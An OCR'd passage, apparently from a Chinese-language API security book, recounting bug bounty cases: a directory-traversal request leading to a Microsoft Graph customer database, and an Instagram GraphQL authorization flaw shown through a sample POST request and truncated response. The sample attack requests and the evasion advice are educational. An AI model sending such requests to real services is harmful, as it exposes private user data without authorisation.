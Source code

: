 通过在路径末尾使用`..\`，Curry 试图遍历当前工作目录，并查看他可以访问服务器上的其他内容。他继续测试各种目录遍历漏洞，直到发送了以下内容：

```
GET /bff/proxy/stream/v1/me/stramItems/web\..\.\..\.\..\.\..\.\..\..\..\.\..\
```

这个请求导致了一个不同的错误信息：

```
"message": "Bad Request",
"errorCode": 400
```

这个错误请求的突然变化意味着 Curry 发现了某些东西。他使用 Burp Suite Intruder 暴力破解不同的目录，直到他找到了一个使用*/search/v1/accounts*的 Microsoft Graph 实例。Curry 查询了 Graph API，并捕获了一个概念验证，证明他可以访问一个包含 ID、用户名、全名、电子邮件、城市、地址和电话号码的内部客户数据库。

因为他了解 Microsoft Graph API 的语法，Curry 发现他可以通过添加查询参数`$count=true`来获取条目数，总数为 99,356,059，接近 100 百万。

Curry 通过密切关注 API 的响应并在 Burp Suite 中过滤结果，找到了一个独特的 400 状态码，这在所有标准的 404 错误中是独一无二的。如果 API 提供者没有披露这个信息，响应可能会与其他所有的 404 错误混合，攻击者很可能会转向另一个目标。

通过结合信息泄露和安全配置错误，他能够暴力破解内部目录结构并找到 Microsoft Graph API。额外的 BFLA 漏洞使 Curry 能够使用管理功能执行用户账户查询。

**经验教训**

+   密切关注 API 响应之间的细微差异。使用 Burp Suite Comparer 或仔细对比请求和响应，以识别 API 中的潜在弱点。

+   调查应用程序或 WAF 如何处理模糊测试和目录遍历技术。

+   利用回避技术绕过安全控制。

### 一个 Instagram GraphQL BOLA

+   **漏洞赏金猎人：** Mayur Fartade

+   **赏金：** $30,000

在 2021 年，Fartade 在 Instagram 上发现了一个严重的 BOLA 漏洞，使他能够向位于 */api/v1/ads/graphql/* 的 GraphQL API 发送 POST 请求，查看其他用户的私密帖子、故事和短视频。

问题源于缺乏针对涉及用户媒体 ID 请求的授权安全控制。要发现媒体 ID，可以使用暴力破解或通过其他方式获取 ID，如社交工程或 XSS。例如，Fartade 使用了如下的 POST 请求：

```
POST /api/v1/ads/graphql HTTP/1.1
Host: i.instagram.com
Parameters:
doc_id=[REDACTED]&query_params={"query_params":{"access_token":"","id":"**[****MEDIA_ID]**"}}
```

通过针对 `MEDIA_ID` 参数并为 `access_token` 提供空值，Fartade 能够查看其他用户私密帖子的详细信息：

```
"data":{
"instagram_post_by_igid":{
"id":
"creation_time":1618732307,
"has_product_tags":false,
"has_product_mentions":false,
"instagram_media_id":
006",
"instagram_media_owner_id":"!
"instagram_actor": {
"instagram_actor_id":"!
"id":"1
},
"inline_insights_node":{
"state": null,
"metrics":null,
"error":null
},
"display_url":"https:\/\/scontent.cdninstagram.com\/VV/t51.29350-15\/
"instagram_media_type":"IMAGE",
"image":{
```